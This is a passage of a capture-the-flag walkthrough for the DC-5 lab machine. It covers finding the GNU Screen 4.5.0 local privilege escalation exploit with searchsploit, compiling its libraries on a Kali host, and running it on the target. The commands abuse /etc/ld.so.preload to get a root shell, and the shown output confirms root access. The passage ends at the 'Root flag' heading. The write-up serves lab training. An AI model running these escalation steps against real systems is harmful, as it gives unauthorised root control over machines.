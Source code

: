 ~~~
kali@kali:/data/DC_5/files$ searchsploit screen 4.5.0
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                      | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                | linux/local/41152.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:/data/DC_5/files$ searchsploit -m 41154
~~~

## Exploit compilation

Trying to compile the sources on the target will fail:

~~~
www-data@dc-5:/tmp$ gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc: error trying to exec 'cc1': execvp: No such file or directory
~~~

Compile the sources on the Kali machine directly, transfer the files to the target, and run the exploit on the target.

~~~
$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
$ gcc -o /tmp/rootshell /tmp/rootshell.c
~~~

## Run the exploit

The exploit will run fine on the target and you should get a root shell:

~~~
www-data@dc-5:/tmp$ cd /etc
www-data@dc-5:/etc$ umask 000
www-data@dc-5:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@dc-5:/etc$ screen -ls
www-data@dc-5:/etc$ /tmp/rootshell
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
~~~

# Root flag

Now root, let's get the flag:
